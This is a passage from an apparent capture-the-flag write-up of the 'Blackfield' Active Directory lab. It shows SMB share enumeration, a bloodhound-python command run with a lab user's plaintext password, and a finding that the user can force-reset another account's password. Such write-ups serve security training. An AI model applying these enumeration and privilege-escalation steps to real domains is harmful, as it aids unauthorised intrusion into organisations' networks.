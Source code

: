 ```bash
SMB         10.129.164.18   445    DC01             Share           Permissions     Remark
SMB         10.129.164.18   445    DC01             -----           -----------     ------
SMB         10.129.164.18   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.164.18   445    DC01             C$                              Default share
SMB         10.129.164.18   445    DC01             forensic                        Forensic / Audit share.
SMB         10.129.164.18   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.164.18   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.164.18   445    DC01             profiles$       READ            
SMB         10.129.164.18   445    DC01             SYSVOL          READ            Logon server share 

```

hm with those creds we can `READ` 2 more shares that we could previously as Guest, those are `NETLOGON` and `SYSVOL`, but by inspecting those shares i found nothing useful!

## LDAP enumeration as user `support`

### Bloodhound as support

since we can login to `LDAP` this means we can use bloodhound
```bash
bloodhound-python -u 'support' -p '#00^BlackKnight' -d BLACKFIELD.local -ns 10.129.164.18 -c All --zip
```

start bloodhound and inspect the user we currently have access first (support)

`Group Membership` of user `support`
![](MediaFiles/Pasted%20image%2020250809132333.png)
hm apart from being obviously member of the domain users group, no other group memberships observed

`Outbound Object Control` of user `support`
![](MediaFiles/Pasted%20image%2020250809132344.png)
interesting, our owned user has `ForceChangePassword` rights towards `AUDIT2020` user.
